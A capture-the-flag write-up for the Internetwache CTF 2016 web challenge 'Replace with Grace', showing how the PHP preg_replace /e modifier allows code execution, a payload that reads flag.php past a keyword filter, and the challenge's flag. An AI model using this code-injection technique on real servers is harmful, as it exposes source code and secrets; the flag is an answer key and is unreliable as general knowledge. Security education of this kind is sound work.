 # Internetwache CTF 2016 : Replace with Grace

**Category:** Web
**Points:** 60
**Solves:** 229
**Description:**

> Description: Regular expressions are pretty useful. Especially when you need to search and replace complex terms.
> 
> 
> Service: <https://replace-with-grace.ctf.internetwache.org/>

Sources: <https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web60/code>

## Write-up

**by [LosFuzzys](https://hack.more.systems)**

The given website is used to "Search & Replace" with regular expressions.
From other challenges we know, that we can execute php code using:

```php
/(.*)/e
```

(Check out [this Stackoverflow answer](http://stackoverflow.com/a/16986549/1518225) for details.)

The problem was, that the website filtered some inputs like:

* file
* open


It worked with:

```php
var_dump(show_source('flag.php'));
```

A simple, but nice challenge.

```
IW{R3Pl4c3_N0t_S4F3}
```

## Other write-ups and resources

* <https://github.com/raccoons-team/ctf/tree/master/2016-02-20-internetwache-ctf/web60>
* <https://forum.xeksec.com/f138/t88658/>
* <http://losfuzzys.github.io/writeup/2016/02/22/iwctf2016-ReplaceWithGrace/>
* <http://cafelinux.info/articles/writeups-internetwache-ctf-2016-replace-with-grace-web60>
* <http://rektsec.github.io/writeups/ctf/internetwatche-2016-ctf-replace-with-grace-web-60/>
* <http://ctfwriteups.blogspot.de/2016/02/internetwache-ctf-2016-replace-with.html>
* <https://github.com/WesternCyber/CTF-WriteUp/blob/master/2016/Internetwache/Web/Web60.md>
